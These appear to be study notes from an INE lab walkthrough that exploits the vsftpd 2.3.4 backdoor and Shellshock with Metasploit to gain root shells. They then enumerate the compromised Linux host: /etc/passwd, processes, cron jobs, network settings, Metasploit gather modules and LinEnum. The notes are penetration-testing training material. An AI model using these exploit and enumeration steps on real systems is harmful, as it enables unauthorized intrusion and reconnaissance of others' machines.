







# 🔬Linux Post-Exploitation

> 🔬 INE LAB
>
> - Target IP: `192.218.227.3`
> - **Local Linux Enumeration**

> 📝📌 **Always document and save all the Post-Exploitation Local Enumeration in a local file.**

## Enumeration & Exploitation

```bash
nmap -sV 192.218.227.3
	21/tcp open  ftp  vsftpd 2.3.4
```

```bash
searchsploit vsftpd 2.3.4
service postgresql start && msfconsole -q
```

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
setg RHOSTS 192.218.227.3
setg RHOST 192.218.227.3
run
    [+] 192.218.227.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
    [*] Found shell.

/bin/bash -i
	root@victim-1:~/vsftpd-2.3.4#
```

```bash
# CTRL+Z
sessions -u 1
sessions 2
	meterpreter >
```

## Local Enumeration

### System Information

- In the **`Meterpreter`** session

```bash
getuid
	Server username: uid=0, gid=0, euid=0, egid=0
```

```bash
sysinfo
    Computer     : 192.218.227.3
    OS           : Debian 9.5 (Linux 5.4.0-131-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
```

```bash
shell
/bin/bash -i
cd /root
```

- In the **`/bin/bash`** session

```bash
hostname
	victim-1
```

```bash
cat /etc/issue
	Debian GNU/Linux 9
	
cat /etc/*release
```

```bash
PRETTY_NAME="Debian GNU/Linux 9 (stretch)"
NAME="Debian GNU/Linux"
VERSION_ID="9"
VERSION="9 (stretch)"
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

- Enumerate **kernel**

```bash
uname -a
	Linux victim-1 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 GNU/Linux
```

- Enumerate **environment variables** for the current user

```bash
env
```

```bash
LANG=C
USER=root
PWD=/root
HOME=/root
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin
OLDPWD=/root/vsftpd-2.3.4
_=/usr/bin/env
```

- Display CPU information

```bash
lscpu
```

```bash
Architecture:          x86_64
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                48
On-line CPU(s) list:   0-47
Thread(s) per core:    1
Core(s) per socket:    48
Socket(s):             1
NUMA node(s):          1
Vendor ID:             AuthenticAMD
CPU family:            23
Model:                 49
Model name:            AMD EPYC 7642 48-Core Processor
Stepping:              0
CPU MHz:               2299.998
BogoMIPS:              4599.99
Hypervisor vendor:     KVM
Virtualization type:   full
L1d cache:             64K
L1i cache:             64K
L2 cache:              512K
L3 cache:              16384K
NUMA node0 CPU(s):     0-47
Flags:                 fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 ht syscall nx mmxext fxsr_opt pdpe1gb rdtscp lm rep_good nopl cpuid extd_apicid tsc_known_freq pni pclmulqdq ssse3 fma cx16 sse4_1 sse4_2 x2apic movbe popcnt tsc_deadline_timer aes xsave avx f16c rdrand hypervisor lahf_lm cmp_legacy cr8_legacy abm sse4a misalignsse 3dnowprefetch osvw perfctr_core ssbd ibrs ibpb stibp vmmcall fsgsbase tsc_adjust bmi1 avx2 smep bmi2 rdseed adx smap clflushopt clwb sha_ni xsaveopt xsavec xgetbv1 xsaves clzero xsaveerptr wbnoinvd arat umip rdpid arch_capabilities
```

- Show **RAM** usage

```bash
free -h
```

- List **storage devices**

```bash
df -h
```

```bash
Filesystem Size  Used Avail Use% Mounted on
overlay    1.9T  1.6T  236G  87% /
tmpfs       64M     0   64M   0% /dev
tmpfs       48G     0   48G   0% /sys/fs/cgroup
shm         64M     0   64M   0% /dev/shm
/dev/sda   1.9T  1.6T  236G  87% /etc/hosts
udev        48G     0   48G   0% /dev/tty
tmpfs       48G     0   48G   0% /proc/acpi
tmpfs       48G     0   48G   0% /proc/scsi
tmpfs       48G     0   48G   0% /sys/firmware
```

```bash
lsblk | grep sd
```

```bash
NAME MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda    8:0    0  1.9T  0 disk /etc/hosts
sdb    8:16   0  512M  0 disk [SWAP]
```

- Enumerate **installed packages**

```
# Target is running Debian

dpkg -l
```

```bash
+++-===========-=================-====-==================================================
ii  adduser     3.115             all  add and remove users and groups
ii  apt         1.4.8             i386 commandline package manager
ii  base-files  9.9+deb9u5        i386 Debian base system miscellaneous files
ii  base-passwd 3.5.43            i386 Debian base system master password and group files
ii  bash        4.4-5             i386 GNU Bourne Again SHell
ii  binutils    2.28-5            i386 GNU assembler, linker and binary utilities
ii  bsdutils    1:2.29.2-1+deb9u1 i386 basic utilities from 4.4BSD-Lite
[...]
```

### Users & Groups

```bash
whoami
	root
id
# "root" user privileges
```

- *Privilege escalation* is not necessary in this case.
- Enumerate **users**

```bash
ls -al /home
cat /etc/passwd
```

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false

# Username:x:UserID:GroupID:Description:UserHome:UserShell
# User and service accounts
```

```bash
cat /etc/passwd | grep -v /nologin
    root:x:0:0:root:/root:/bin/bash
    sync:x:4:65534:sync:/bin:/bin/sync
    _apt:x:100:65534::/nonexistent:/bin/false
```

- Check if a user is part of the `root`/`sudo` group

```bash
groups <USER>
groups root
	root : root
groups
```

- Enumerate **current/recent logged-on users**

```bash
who
w
last
lastlog
```

### Network Information

- Back into the `Meterpreter` session
- Show **network adapter** info

```bash
ifconfig
```

```bash
Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0

Interface  2
============
Name         : ip_vti0
Hardware MAC : 00:00:00:00:00:00
MTU          : 1480
Flags        : NOARP

Interface 195677
============
Name         : eth0
Hardware MAC : 02:42:c0:da:e3:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.218.227.3
IPv4 Netmask : 255.255.255.0
```

- Display the **current running TCP/UDP services**

```bash
netstat
```

```bash
Connection list
===============
Proto  Local address        Remote address       State        User   Inode  PID/Program name
-----  -------------        --------------       -----        ----   -----  ----------------
tcp    0.0.0.0:21           0.0.0.0:*            LISTEN       0      0
tcp    127.0.0.11:40341     0.0.0.0:*            LISTEN       65534  0
tcp    0.0.0.0:6200         0.0.0.0:*            LISTEN       0      0
tcp    192.218.227.3:55702  192.218.227.2:4433   ESTABLISHED  0      0 # Meterpreter Session
tcp    192.218.227.3:6200   192.218.227.2:46613  ESTABLISHED  0      0
udp    127.0.0.11:60187     0.0.0.0:*                         65534  0
```

- Display the **routing table** and the **ARP** cache

```bash
route
```

```bash
IPv4 network routes
===================
Subnet         Netmask        Gateway        Metric  Interface
------         -------        -------        ------  ---------
0.0.0.0        0.0.0.0        192.218.227.1  0       eth0
192.218.227.0  255.255.255.0  0.0.0.0        0       eth0

No IPv6 routes were found.
# Check the Gateway
```

```bash
arp
```

```bash
ARP cache
=========
IP address     MAC address        Interface
----------     -----------        ---------
192.218.227.2  02:42:c0:da:e3:02
```

- In the **`/bin/bash`** session

```bash
shell
/bin/bash -i
```

```bash
ifconfig # May not be installed
ip -br -c a
ip a
```

```bash
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
195677: eth0@if195678: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:da:e3:03 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.218.227.3/24 brd 192.218.227.255 scope global eth0
       valid_lft forever preferred_lft forever
```

```
cat /etc/networks
```

```bash
default    0.0.0.0
loopback   127.0.0.0
link-local 169.254.0.0
```

```bash
cat /etc/hostname
	victim-1
```

- List locally **mapped domains**

```
cat /etc/hosts
```

```bash
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
192.218.227.3   victim-1
```

- Show **default DNS name server**

```bash
cat /etc/resolv.conf
```

```bash
search members.linode.com
nameserver 127.0.0.11
options edns0 trust-ad ndots:0
```

- Display the `ARP` table

```bash
arp -a
```

### Processes & Cron Jobs

- Enumerate all **running processes**, from a `Meterpreter` session

```bash
ps
```

```bash
Process List
============

 PID  PPID  Name    Arch    User    Path
 ---  ----  ----    ----    ----    ----
 1    0     sh      x86     root    /bin
 7    1     vsftpd  x86     root    /usr/local/sbin
 8    7     sh      x86     root    /bin
 9    8     vsftpd  x86_64  nobody  .
 17   8     mBvXo   x86_64  root    /tmp
 21   17    sh      x86     root    /bin
 22   21    bash    x86     root    /bin
 55   17    sh      x86     root    /bin
 56   55    bash    x86     root    /bin
```

```bash
pgrep vsftpd
    7
    9
```

- In the **`/bin/bash`** session
- List **running processes** *(on the Kali Linux if the target machine does not have to commands)* 

```bash
ps
    PID TTY          TIME CMD
     23 pts/0    00:00:00 bash
     25 pts/0    00:00:12 ruby
    262 pts/0    00:00:00 ps
```

```bash
ps aux
```

```bash
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2384   756 ?        Ss   19:40   0:00 /bin/sh /startup.sh
root          19  0.1  0.0 114224 21384 ?        Sl   19:40   0:03 /usr/local/bin/ttyd -p 45654 bash
root          23  0.0  0.0   3812  3156 pts/0    Ss   19:41   0:00 bash
root          25  0.4  0.2 1139064 226336 pts/0  Sl+  19:41   0:12 ruby /usr/bin/msfconsole -q
root         270  0.0  0.0   7636  2712 pts/0    R+   20:25   0:00 ps aux
```

```bash
ps aux | grep msfconsole
ps aux | grep root
```

- Dynamic check of running processes

```bash
top
```



- List the **cron jobs**

> 📌 Scheduled cron jobs can be misconfigured and vulnerable to **exploitation** and **privilege escalation**!

```bash
cat /etc/cron*
```

```bash
cat: /etc/cron.d: Is a directory
cat: /etc/cron.daily: Is a directory
cat: /etc/cron.hourly: Is a directory
cat: /etc/cron.monthly: Is a directory
cat: /etc/cron.weekly: Is a directory
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

- Show cron jobs for the current user

```bash
crontab -l
```

## Automating Local Enum

> 🔬 INE LAB
>
> - Target IP: `192.19.208.3`
> - Automation Tools:
>   - [LinEnum - rebootuser](https://github.com/rebootuser/LinEnum)
>   - Metasploit Framework

**`LinEnum`** - bash script that *automates common Linux local enumeration*

```bash
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

### Enumeration & Exploitation

```bash
# Target Apache/ShellShock vuln
nmap -sV 192.19.208.3
	80/tcp open  http  Apache httpd 2.4.6 ((Unix))
```

```bash
service postgresql start && msfconsole -q
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
setg RHOSTS 192.19.208.3
setg RHOST 192.19.208.3
set TARGETURI /gettime.cgi
run
```



### Metasploit Post-Exploitation

```bash
background
```

- Enumerate **configuration files**

```bash
use post/linux/gather/enum_configs
set SESSION 1
run
```



- Enumerate **network fino**

```bash
use post/linux/gather/enum_network
set SESSION 1
run
```



- Enumerate **local system information**

```bash
use post/linux/gather/enum_system
set SESSION 1
run
```



- Check if the target is a **VM or a container**

```bash
use post/linux/gather/checkvm
set SESSION 1
run
```



### LinEnum

- Copy the content of the [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) script and save it in the lab environment

- Back into the `Meterpreter` session, copy the **`LinEnum.sh`** file into the `/tmp` target directory 

```bash
session 1
cd /tmp
upload /root/Desktop/LinEnum.sh
shell
/bin/bash -i

id
	uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

- Run **`LinEnum.sh`** and output the results in a file

```bash
chmod +x LinEnum.sh
./LinEnum.sh

# Copy the output to a txt local file
```



------

